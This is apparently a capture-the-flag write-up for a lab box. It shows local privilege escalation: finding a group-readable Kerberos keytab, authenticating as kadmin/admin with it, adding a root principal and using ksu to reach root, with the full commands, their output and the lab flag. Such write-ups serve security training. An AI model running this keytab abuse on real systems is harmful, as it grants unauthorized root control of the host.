 # Enumeration-
’ll use `find` to identify files in owned by the admin user:

```bash
[admin@srv01 ~]$ find / -user admin -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
/var/spool/mail/admin
/home/admin/squid_logs.tar.gz.2021-06-27-000701
/home/admin/squid_logs.tar.gz.2021-06-27-000801
[admin@srv01 ~]$ ls -l /var/spool/mail/admin
-rw-rw----. 1 admin mail 0 Dec  9  2020 /var/spool/mail/admin
```

The admin user is in the admin and squid groups:
```bash
[admin@srv01 ~]$ id
uid=1011(admin) gid=1011(admin) groups=1011(admin),23(squid)
```

Checking for files owned by admin-
```bash
[admin@srv01 ~]$ find / -group admin -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
/etc/krb5.keytab
/usr/local/bin/log_backup.sh
/home/admin/squid_logs.tar.gz.2021-06-27-001001
/home/admin/access.log
/home/admin/cache.log
```

### Keytab Files-

The Keytab file is required on all Kerberos server machines, and is used to authenticate to the KDC. [The documentation](https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5/doc/krb5-install/The-Keytab-File.html), after using two sentence two define the file, spends the next two talking about how important it is to protect:

> All Kerberos server machines need a keytab file, called `/etc/krb5.keytab`, to authenticate to the KDC. The keytab file is an encrypted, local, on-disk copy of the host’s key. The keytab file, like the stash file ([Create the Database](https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5/doc/krb5-install/Create-the-Database.html)) is a potential point-of-entry for a break-in, and if compromised, would allow unrestricted access to its host. The keytab file should be readable only by root, and should exist only on the machine’s local disk. The file should not be part of any backup of the machine, unless access to the backup data is secured as tightly as access to the machine’s root password itself.


The file itself is binary, but `klist -k` will list the principles in the keytab file-

```bash
[admin@srv01 ~]$ klist -kt
Keytab name: FILE:/etc/krb5.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
```

By default, a `krb5.keytab` file would only have the host principle. But another principle, kadmin, has been added here with both the `admin` and `changepw` privileges. That means that anyone who can read this file can act as kadmin, and that user can run the `kadmin` binary which allows them to administer the Kerberos domain. Running it will drop me to a `kadmin` prompt:

```bash
[admin@srv01 ~]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:
```

t’s important to specify that I’m getting auth through the keytab file, and that I want to enter as the kadmin principle with `admin` privs.

From within `kadmin`, I can list the users (principles) in the domain:

```bash
kadmin:  list_principals 
K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
```

# Root-
I can add root as a principle. When prompted, I enter a password (twice), and then root shows up:

```bash
kadmin:  add_principal root
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
kadmin:  list_principals 
K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
root@REALCORP.HTB
kadmin:  exit
```

Now `ksu` will run `su` using Kerberos, so I’ll enter the password I just created for root:

```bash
[admin@srv01 ~]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 admin]# ls -la
total 856
drwxr-x---. 3 admin admin    125 Jun 27 00:26 .
drwxr-xr-x. 4 root  root      37 Nov  3  2020 ..
lrwxrwxrwx. 1 root  root       9 Dec  9  2020 .bash_history -> /dev/null
-rw-r--r--. 1 admin admin 434581 Jun 27 00:25 squid_logs.tar.gz.2021-06-27-002501
-rw-r--r--. 1 admin admin 434581 Jun 27 00:26 squid_logs.tar.gz.2021-06-27-002601
drwx------. 2 admin admin      6 Dec 25  2020 .ssh
[root@srv01 admin]# cd /root
[root@srv01 ~]# ls
anaconda-ks.cfg  root.txt
[root@srv01 ~]# cat root.txt 
1af37803e2b40f60fb236ceef3ac86ba
```